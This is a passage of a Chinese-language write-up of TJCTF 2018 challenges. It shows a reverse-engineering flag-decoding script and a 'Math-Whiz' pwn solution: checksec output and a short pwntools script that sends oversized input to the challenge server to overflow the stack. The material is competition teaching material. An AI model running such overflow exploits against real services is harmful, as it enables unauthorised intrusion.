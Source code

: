 ```python
    addr =addr + 4;
    Message("%d,",x);
}
'''
output = '22c15d5f23238a8fff8d299f8e5a1c62'
out_flag = map(ord,output.decode('hex'))
print out_flag

flag = ''
for i in range(len(out_flag)):
	for j in range(256):
		if v[j]^u[len(out_flag)-i-1] == out_flag[i]:
			flag += chr(j)
			break
print flag,len(flag)
```

<br>

## Pwn

### Math-Whiz(points: 20)

先看看开了什么保护，发现只有栈溢出可以利用:-)

```shell
▶ checksec register
[*] '/2018TJCTF/pwn-Math-Whiz20/register'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

用ida看下伪代码，关键在于v43是否为0

![](http://wx4.sinaimg.cn/mw690/0060lm7Tly1fu5qxtbuwdj30eo0373yo.jpg)

那么通过栈溢出覆盖v43即可

最初脚本如下，暴力的一批

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
io = remote('problem1.tjctf.org', 8001)

for i in range(7):
	io.sendlineafter(': ','a'*100)
io.interactive()
```
